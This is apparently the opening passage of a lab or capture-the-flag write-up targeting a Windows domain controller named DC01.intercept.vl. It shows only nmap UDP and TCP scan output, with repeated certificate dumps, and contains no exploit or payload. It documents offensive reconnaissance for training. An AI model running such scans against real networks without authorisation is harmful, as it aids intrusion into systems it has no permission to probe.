



As usual the initial step involves checking all the running services over the first thousand UDP services:

```bash
└─$ nmap -sU -F 10.13.38.49
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-15 11:03 +0100
Nmap scan report for 10.13.38.49
Host is up (0.039s latency).
Not shown: 97 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp

Nmap done: 1 IP address (1 host up) scanned in 4.23 seconds

```

Ok, judging by the kerberos 88/UDP this should be the DC but without further due I will check the TCP services as well.

```bash
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  tcpwrapped    syn-ack ttl 127
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-03-15 10:10:20Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intercept.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.intercept.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.intercept.vl
| Issuer: commonName=intercept-DC01-CA/domainComponent=intercept
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-10-22T11:45:37
| Not valid after:  2026-10-22T11:45:37
| MD5:     43fd b52b ec55 8d42 8ae4 09cc 4375 48b8
| SHA-1:   6fa7 5a94 c053 7444 7c39 65a2 20c5 6e59 b24c 69af
| SHA-256: 259d 93c1 7961 bba1 d484 7ef6 637e 7efd eac5 8a44 33a1 300d 5c6c 5ad6 e9ea 8e5c
| -----BEGIN CERTIFICATE-----
| MIIGOzCCBSOgAwIBAgITdQAAAA3q+21R0jsGMAAJAAAADTANBgkqhkiG9w0BAQsF
| ADBLMRIwEAYKCZImiZPyLGQBGRYCdmwxGTAXBgoJkiaJk/IsZAEZFglpbnRlcmNl
| cHQxGjAYBgNVBAMTEWludGVyY2VwdC1EQzAxLUNBMB4XDTI1MTAyMjExNDUzN1oX
| DTI2MTAyMjExNDUzN1owHDEaMBgGA1UEAxMRREMwMS5pbnRlcmNlcHQudmwwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDykzH7IHeGbNOzwEcDnf0wP2eA
| kPqemjm1zS39TwOzSUoMTUqMmVBKhoLpRXf0ICcaVzNP4HJHIY8kZhi1B03Llrhb
| 8pFPwIgB86W9UFqmUlUktBGXfrPRH6x3f3KaDW0xguh1Q62hfjtNorF8tYBirOGJ
| 1/dnq8d7u0pSThKmiH9jByqYV3Mrxp9N0QWD2wV2yv0b/XlyUM8Ww6MJ3U/9k7fV
| h2GsmnFsOFhnM3SEtVXqFcU5QBD5jC6NQ5ccd4KabzXXq1l/1PVoGNQMOu7hZ5H/
| Q5zHrcyFBjyiRlcwVB0tm5s8TyZRMF5s5z5PHP2jj7BD3silYJfUzw+0ikchAgMB
| AAGjggNFMIIDQTAvBgkrBgEEAYI3FAIEIh4gAEQAbwBtAGEAaQBuAEMAbwBuAHQA
| cgBvAGwAbABlAHIwHQYDVR0lBBYwFAYIKwYBBQUHAwIGCCsGAQUFBwMBMA4GA1Ud
| DwEB/wQEAwIFoDB4BgkqhkiG9w0BCQ8EazBpMA4GCCqGSIb3DQMCAgIAgDAOBggq
| hkiG9w0DBAICAIAwCwYJYIZIAWUDBAEqMAsGCWCGSAFlAwQBLTALBglghkgBZQME
| AQIwCwYJYIZIAWUDBAEFMAcGBSsOAwIHMAoGCCqGSIb3DQMHMB0GA1UdDgQWBBQz
| PtEk9Xn6XA2W+Gcx2z2XnVdzZzAfBgNVHSMEGDAWgBQfmna4mRiIYgKpduz+iW3x
| MOI8qDCBzQYDVR0fBIHFMIHCMIG/oIG8oIG5hoG2bGRhcDovLy9DTj1pbnRlcmNl
| cHQtREMwMS1DQSxDTj1EQzAxLENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2
| aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPWludGVyY2VwdCxE
| Qz12bD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9
| Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgcQGCCsGAQUFBwEBBIG3MIG0MIGxBggrBgEF
| BQcwAoaBpGxkYXA6Ly8vQ049aW50ZXJjZXB0LURDMDEtQ0EsQ049QUlBLENOPVB1
| YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRp
| b24sREM9aW50ZXJjZXB0LERDPXZsP2NBQ2VydGlmaWNhdGU/YmFzZT9vYmplY3RD
| bGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MD0GA1UdEQQ2MDSgHwYJKwYBBAGC
| NxkBoBIEEEVQBHCu8+ZJqdeu23+KYpuCEURDMDEuaW50ZXJjZXB0LnZsME8GCSsG
| AQQBgjcZAgRCMECgPgYKKwYBBAGCNxkCAaAwBC5TLTEtNS0yMS0zMDMxMDIxNTQ3
| LTE0ODAxMjgxOTUtMzAxNDEyODkzMi0xMDAwMA0GCSqGSIb3DQEBCwUAA4IBAQAi
| TlS4pLp8h/3G4C7y674tkv70+Of/lRTBC9CB/79BAjaABMrG7c+V0Vh8MHuynjTZ
| JwC3hP0eaPB8DWbHFWGVYPWdLW9e+hAcDy5zTA+1PlkYb+Xv35z7XhGtdC8ayIAC
| vt3H98e2iWwoeDwcpTfOoHv9f/ZqaezAhUGIanN1RtjvULqUi1iwUo1NulZL5Dpe
| E0mlGAsFddfwn2W+nnLaeb+efPkmLD4LK7Q5932yDsBqhRh+vjSOpPg9Vyl1KTwV
| /U3dvLHPkqVCB1qMJ2rgxqL3nCFcO6fiGNGGth4TLVcQfeOqhaSysT3DUr7vErL2
| XD9Vt/d6oIieFX5dqeG8
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intercept.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.intercept.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.intercept.vl
| Issuer: commonName=intercept-DC01-CA/domainComponent=intercept
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-10-22T11:45:37
| Not valid after:  2026-10-22T11:45:37
| MD5:     43fd b52b ec55 8d42 8ae4 09cc 4375 48b8
| SHA-1:   6fa7 5a94 c053 7444 7c39 65a2 20c5 6e59 b24c 69af
| SHA-256: 259d 93c1 7961 bba1 d484 7ef6 637e 7efd eac5 8a44 33a1 300d 5c6c 5ad6 e9ea 8e5c
| -----BEGIN CERTIFICATE-----
| MIIGOzCCBSOgAwIBAgITdQAAAA3q+21R0jsGMAAJAAAADTANBgkqhkiG9w0BAQsF
| ADBLMRIwEAYKCZImiZPyLGQBGRYCdmwxGTAXBgoJkiaJk/IsZAEZFglpbnRlcmNl
| cHQxGjAYBgNVBAMTEWludGVyY2VwdC1EQzAxLUNBMB4XDTI1MTAyMjExNDUzN1oX
| DTI2MTAyMjExNDUzN1owHDEaMBgGA1UEAxMRREMwMS5pbnRlcmNlcHQudmwwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDykzH7IHeGbNOzwEcDnf0wP2eA
| kPqemjm1zS39TwOzSUoMTUqMmVBKhoLpRXf0ICcaVzNP4HJHIY8kZhi1B03Llrhb
| 8pFPwIgB86W9UFqmUlUktBGXfrPRH6x3f3KaDW0xguh1Q62hfjtNorF8tYBirOGJ
| 1/dnq8d7u0pSThKmiH9jByqYV3Mrxp9N0QWD2wV2yv0b/XlyUM8Ww6MJ3U/9k7fV
| h2GsmnFsOFhnM3SEtVXqFcU5QBD5jC6NQ5ccd4KabzXXq1l/1PVoGNQMOu7hZ5H/
| Q5zHrcyFBjyiRlcwVB0tm5s8TyZRMF5s5z5PHP2jj7BD3silYJfUzw+0ikchAgMB
| AAGjggNFMIIDQTAvBgkrBgEEAYI3FAIEIh4gAEQAbwBtAGEAaQBuAEMAbwBuAHQA
| cgBvAGwAbABlAHIwHQYDVR0lBBYwFAYIKwYBBQUHAwIGCCsGAQUFBwMBMA4GA1Ud
| DwEB/wQEAwIFoDB4BgkqhkiG9w0BCQ8EazBpMA4GCCqGSIb3DQMCAgIAgDAOBggq
| hkiG9w0DBAICAIAwCwYJYIZIAWUDBAEqMAsGCWCGSAFlAwQBLTALBglghkgBZQME
| AQIwCwYJYIZIAWUDBAEFMAcGBSsOAwIHMAoGCCqGSIb3DQMHMB0GA1UdDgQWBBQz
| PtEk9Xn6XA2W+Gcx2z2XnVdzZzAfBgNVHSMEGDAWgBQfmna4mRiIYgKpduz+iW3x
| MOI8qDCBzQYDVR0fBIHFMIHCMIG/oIG8oIG5hoG2bGRhcDovLy9DTj1pbnRlcmNl
| cHQtREMwMS1DQSxDTj1EQzAxLENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2
| aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPWludGVyY2VwdCxE
| Qz12bD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9
| Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgcQGCCsGAQUFBwEBBIG3MIG0MIGxBggrBgEF
| BQcwAoaBpGxkYXA6Ly8vQ049aW50ZXJjZXB0LURDMDEtQ0EsQ049QUlBLENOPVB1
| YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRp
| b24sREM9aW50ZXJjZXB0LERDPXZsP2NBQ2VydGlmaWNhdGU/YmFzZT9vYmplY3RD
| bGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MD0GA1UdEQQ2MDSgHwYJKwYBBAGC
| NxkBoBIEEEVQBHCu8+ZJqdeu23+KYpuCEURDMDEuaW50ZXJjZXB0LnZsME8GCSsG
| AQQBgjcZAgRCMECgPgYKKwYBBAGCNxkCAaAwBC5TLTEtNS0yMS0zMDMxMDIxNTQ3
| LTE0ODAxMjgxOTUtMzAxNDEyODkzMi0xMDAwMA0GCSqGSIb3DQEBCwUAA4IBAQAi
| TlS4pLp8h/3G4C7y674tkv70+Of/lRTBC9CB/79BAjaABMrG7c+V0Vh8MHuynjTZ
| JwC3hP0eaPB8DWbHFWGVYPWdLW9e+hAcDy5zTA+1PlkYb+Xv35z7XhGtdC8ayIAC
| vt3H98e2iWwoeDwcpTfOoHv9f/ZqaezAhUGIanN1RtjvULqUi1iwUo1NulZL5Dpe
| E0mlGAsFddfwn2W+nnLaeb+efPkmLD4LK7Q5932yDsBqhRh+vjSOpPg9Vyl1KTwV
| /U3dvLHPkqVCB1qMJ2rgxqL3nCFcO6fiGNGGth4TLVcQfeOqhaSysT3DUr7vErL2
| XD9Vt/d6oIieFX5dqeG8
|_-----END CERTIFICATE-----
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intercept.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.intercept.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.intercept.vl
| Issuer: commonName=intercept-DC01-CA/domainComponent=intercept
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-10-22T11:45:37
| Not valid after:  2026-10-22T11:45:37
| MD5:     43fd b52b ec55 8d42 8ae4 09cc 4375 48b8
| SHA-1:   6fa7 5a94 c053 7444 7c39 65a2 20c5 6e59 b24c 69af
| SHA-256: 259d 93c1 7961 bba1 d484 7ef6 637e 7efd eac5 8a44 33a1 300d 5c6c 5ad6 e9ea 8e5c
| -----BEGIN CERTIFICATE-----
| MIIGOzCCBSOgAwIBAgITdQAAAA3q+21R0jsGMAAJAAAADTANBgkqhkiG9w0BAQsF
| ADBLMRIwEAYKCZImiZPyLGQBGRYCdmwxGTAXBgoJkiaJk/IsZAEZFglpbnRlcmNl
| cHQxGjAYBgNVBAMTEWludGVyY2VwdC1EQzAxLUNBMB4XDTI1MTAyMjExNDUzN1oX
| DTI2MTAyMjExNDUzN1owHDEaMBgGA1UEAxMRREMwMS5pbnRlcmNlcHQudmwwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDykzH7IHeGbNOzwEcDnf0wP2eA
| kPqemjm1zS39TwOzSUoMTUqMmVBKhoLpRXf0ICcaVzNP4HJHIY8kZhi1B03Llrhb
| 8pFPwIgB86W9UFqmUlUktBGXfrPRH6x3f3KaDW0xguh1Q62hfjtNorF8tYBirOGJ
| 1/dnq8d7u0pSThKmiH9jByqYV3Mrxp9N0QWD2wV2yv0b/XlyUM8Ww6MJ3U/9k7fV
| h2GsmnFsOFhnM3SEtVXqFcU5QBD5jC6NQ5ccd4KabzXXq1l/1PVoGNQMOu7hZ5H/
| Q5zHrcyFBjyiRlcwVB0tm5s8TyZRMF5s5z5PHP2jj7BD3silYJfUzw+0ikchAgMB
| AAGjggNFMIIDQTAvBgkrBgEEAYI3FAIEIh4gAEQAbwBtAGEAaQBuAEMAbwBuAHQA
| cgBvAGwAbABlAHIwHQYDVR0lBBYwFAYIKwYBBQUHAwIGCCsGAQUFBwMBMA4GA1Ud
| DwEB/wQEAwIFoDB4BgkqhkiG9w0BCQ8EazBpMA4GCCqGSIb3DQMCAgIAgDAOBggq
| hkiG9w0DBAICAIAwCwYJYIZIAWUDBAEqMAsGCWCGSAFlAwQBLTALBglghkgBZQME
| AQIwCwYJYIZIAWUDBAEFMAcGBSsOAwIHMAoGCCqGSIb3DQMHMB0GA1UdDgQWBBQz
| PtEk9Xn6XA2W+Gcx2z2XnVdzZzAfBgNVHSMEGDAWgBQfmna4mRiIYgKpduz+iW3x
| MOI8qDCBzQYDVR0fBIHFMIHCMIG/oIG8oIG5hoG2bGRhcDovLy9DTj1pbnRlcmNl
| cHQtREMwMS1DQSxDTj1EQzAxLENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2
| aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPWludGVyY2VwdCxE
| Qz12bD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9
| Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgcQGCCsGAQUFBwEBBIG3MIG0MIGxBggrBgEF
| BQcwAoaBpGxkYXA6Ly8vQ049aW50ZXJjZXB0LURDMDEtQ0EsQ049QUlBLENOPVB1
| YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRp
| b24sREM9aW50ZXJjZXB0LERDPXZsP2NBQ2VydGlmaWNhdGU/YmFzZT9vYmplY3RD
| bGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MD0GA1UdEQQ2MDSgHwYJKwYBBAGC
| NxkBoBIEEEVQBHCu8+ZJqdeu23+KYpuCEURDMDEuaW50ZXJjZXB0LnZsME8GCSsG
| AQQBgjcZAgRCMECgPgYKKwYBBAGCNxkCAaAwBC5TLTEtNS0yMS0zMDMxMDIxNTQ3
| LTE0ODAxMjgxOTUtMzAxNDEyODkzMi0xMDAwMA0GCSqGSIb3DQEBCwUAA4IBAQAi
| TlS4pLp8h/3G4C7y674tkv70+Of/lRTBC9CB/79BAjaABMrG7c+V0Vh8MHuynjTZ
| JwC3hP0eaPB8DWbHFWGVYPWdLW9e+hAcDy5zTA+1PlkYb+Xv35z7XhGtdC8ayIAC
| vt3H98e2iWwoeDwcpTfOoHv9f/ZqaezAhUGIanN1RtjvULqUi1iwUo1NulZL5Dpe
| E0mlGAsFddfwn2W+nnLaeb+efPkmLD4LK7Q5932yDsBqhRh+vjSOpPg9Vyl1KTwV
| /U3dvLHPkqVCB1qMJ2rgxqL3nCFcO6fiGNGGth4TLVcQfeOqhaSysT3DUr7vErL2
| XD9Vt/d6oIieFX5dqeG8
|_-----END CERTIFICATE-----
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intercept.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.intercept.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.intercept.vl
| Issuer: commonName=intercept-DC01-CA/domainComponent=intercept
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-10-22T11:45:37
| Not valid after:  2026-10-22T11:45:37
| MD5:     43fd b52b ec55 8d42 8ae4 09cc 4375 48b8
| SHA-1:   6fa7 5a94 c053 7444 7c39 65a2 20c5 6e59 b24c 69af
| SHA-256: 259d 93c1 7961 bba1 d484 7ef6 637e 7efd eac5 8a44 33a1 300d 5c6c 5ad6 e9ea 8e5c
| -----BEGIN CERTIFICATE-----
| MIIGOzCCBSOgAwIBAgITdQAAAA3q+21R0jsGMAAJAAAADTANBgkqhkiG9w0BAQsF
| ADBLMRIwEAYKCZImiZPyLGQBGRYCdmwxGTAXBgoJkiaJk/IsZAEZFglpbnRlcmNl
| cHQxGjAYBgNVBAMTEWludGVyY2VwdC1EQzAxLUNBMB4XDTI1MTAyMjExNDUzN1oX
| DTI2MTAyMjExNDUzN1owHDEaMBgGA1UEAxMRREMwMS5pbnRlcmNlcHQudmwwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDykzH7IHeGbNOzwEcDnf0wP2eA
| kPqemjm1zS39TwOzSUoMTUqMmVBKhoLpRXf0ICcaVzNP4HJHIY8kZhi1B03Llrhb
| 8pFPwIgB86W9UFqmUlUktBGXfrPRH6x3f3KaDW0xguh1Q62hfjtNorF8tYBirOGJ
| 1/dnq8d7u0pSThKmiH9jByqYV3Mrxp9N0QWD2wV2yv0b/XlyUM8Ww6MJ3U/9k7fV
| h2GsmnFsOFhnM3SEtVXqFcU5QBD5jC6NQ5ccd4KabzXXq1l/1PVoGNQMOu7hZ5H/
| Q5zHrcyFBjyiRlcwVB0tm5s8TyZRMF5s5z5PHP2jj7BD3silYJfUzw+0ikchAgMB
| AAGjggNFMIIDQTAvBgkrBgEEAYI3FAIEIh4gAEQAbwBtAGEAaQBuAEMAbwBuAHQA
| cgBvAGwAbABlAHIwHQYDVR0lBBYwFAYIKwYBBQUHAwIGCCsGAQUFBwMBMA4GA1Ud
| DwEB/wQEAwIFoDB4BgkqhkiG9w0BCQ8EazBpMA4GCCqGSIb3DQMCAgIAgDAOBggq
| hkiG9w0DBAICAIAwCwYJYIZIAWUDBAEqMAsGCWCGSAFlAwQBLTALBglghkgBZQME
| AQIwCwYJYIZIAWUDBAEFMAcGBSsOAwIHMAoGCCqGSIb3DQMHMB0GA1UdDgQWBBQz
| PtEk9Xn6XA2W+Gcx2z2XnVdzZzAfBgNVHSMEGDAWgBQfmna4mRiIYgKpduz+iW3x
| MOI8qDCBzQYDVR0fBIHFMIHCMIG/oIG8oIG5hoG2bGRhcDovLy9DTj1pbnRlcmNl
| cHQtREMwMS1DQSxDTj1EQzAxLENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2
| aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPWludGVyY2VwdCxE
| Qz12bD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9
| Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgcQGCCsGAQUFBwEBBIG3MIG0MIGxBggrBgEF
| BQcwAoaBpGxkYXA6Ly8vQ049aW50ZXJjZXB0LURDMDEtQ0EsQ049QUlBLENOPVB1
| YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRp
| b24sREM9aW50ZXJjZXB0LERDPXZsP2NBQ2VydGlmaWNhdGU/YmFzZT9vYmplY3RD
| bGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MD0GA1UdEQQ2MDSgHwYJKwYBBAGC
| NxkBoBIEEEVQBHCu8+ZJqdeu23+KYpuCEURDMDEuaW50ZXJjZXB0LnZsME8GCSsG
| AQQBgjcZAgRCMECgPgYKKwYBBAGCNxkCAaAwBC5TLTEtNS0yMS0zMDMxMDIxNTQ3
| LTE0ODAxMjgxOTUtMzAxNDEyODkzMi0xMDAwMA0GCSqGSIb3DQEBCwUAA4IBAQAi
| TlS4pLp8h/3G4C7y674tkv70+Of/lRTBC9CB/79BAjaABMrG7c+V0Vh8MHuynjTZ
| JwC3hP0eaPB8DWbHFWGVYPWdLW9e+hAcDy5zTA+1PlkYb+Xv35z7XhGtdC8ayIAC
| vt3H98e2iWwoeDwcpTfOoHv9f/ZqaezAhUGIanN1RtjvULqUi1iwUo1NulZL5Dpe
| E0mlGAsFddfwn2W+nnLaeb+efPkmLD4LK7Q5932yDsBqhRh+vjSOpPg9Vyl1KTwV
| /U3dvLHPkqVCB1qMJ2rgxqL3nCFcO6fiGNGGth4TLVcQfeOqhaSysT3DUr7vErL2
| XD9Vt/d6oIieFX5dqeG8
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC01.intercept.vl
| Issuer: commonName=DC01.intercept.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-10-21T11:54:49
| Not valid after:  2026-04-22T11:54:49
| MD5:     c8a8 c779 d457 d9f8 4618 63cc 6f9d 1af1
| SHA-1:   30ec 0513 db3e 8c9d 7793 df8b 9a1d 035d 5241 8c25
| SHA-256: 1a92 020c 371a 111a d62a 90a9 f519 57b2 1fc0 ebb4 e8d8 418e 5d7c 6ff3 8721 5872
| -----BEGIN CERTIFICATE-----
| MIIC5jCCAc6gAwIBAgIQYki3Y6z8QIVO//mGwxsrmzANBgkqhkiG9w0BAQsFADAc
| MRowGAYDVQQDExFEQzAxLmludGVyY2VwdC52bDAeFw0yNTEwMjExMTU0NDlaFw0y
| NjA0MjIxMTU0NDlaMBwxGjAYBgNVBAMTEURDMDEuaW50ZXJjZXB0LnZsMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAu9rDFarGm+ehTeC+A3EuzQxQX0ZB
| iIwvJiyMCJKcs4xUw6kr3V1x4t4bgApFE6oXfcz3E/1HBx041NWDh0m0TVY2Efu4
| /SLGwz7r9LQ7zirX69cNcR2Noo/PFT1yB5MylEi/zBGanxFfDw35nHSMlMieYfqH
| oejO6JzfgMcVpdDvPkzrgW+WEjA7cKF6HQ/fyvFR60Jdi36vAaYyNY0LnEP2GIbn
| Sg3IcRfc77B72uUIxH1SPuBan5cDBM5TVTPTh5eU34p/2wCykHjF+X4+VfvlAy8J
| qqF4K4yRGJv6V5tEcdElXlosHqUOxsi28ubnDmw/tPRnpraLsMWdxlFKjQIDAQAB
| oyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcN
| AQELBQADggEBAFwg81M2YqVJNZbQ06Yr2KK0lNtcOy2GJQq6srwMwxi8nWxRUtAN
| yCA4Gx7HoKjlT7uRo7CfeZ5J+Rg0adm1IHflPlhy/KlUIKG+LSpAiSPtsygQbnDb
| eDNVdpwMNhDbTIbatXqVNU6IaESvqDF9prbnox+M0z1qfGd3IGt4gcUM4OSrBAs1
| M8Wg0m8Sf1YE/3fDLB9L+aQ4e38RFiQ0r0GPv14t/o/1vy+7ykoTVetxdxvr2wCl
| ZA7qfnOhvjVTZo69LRYUSIMuGzU9CMt0n+b3QFmeilpiYKeMBrxfno/7Em1E7QUE
| StRV80YVVY7QMrHIS2/oVt8E/BZlvjQtNTA=
|_-----END CERTIFICATE-----
|_ssl-date: 2026-03-15T10:11:54+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: INTERCEPT
|   NetBIOS_Domain_Name: INTERCEPT
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: intercept.vl
|   DNS_Computer_Name: DC01.intercept.vl
|   DNS_Tree_Name: intercept.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-15T10:11:14+00:00
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
52003/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
52004/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
52013/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
52089/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
58741/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
58762/tcp open  tcpwrapped    syn-ack ttl 127
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
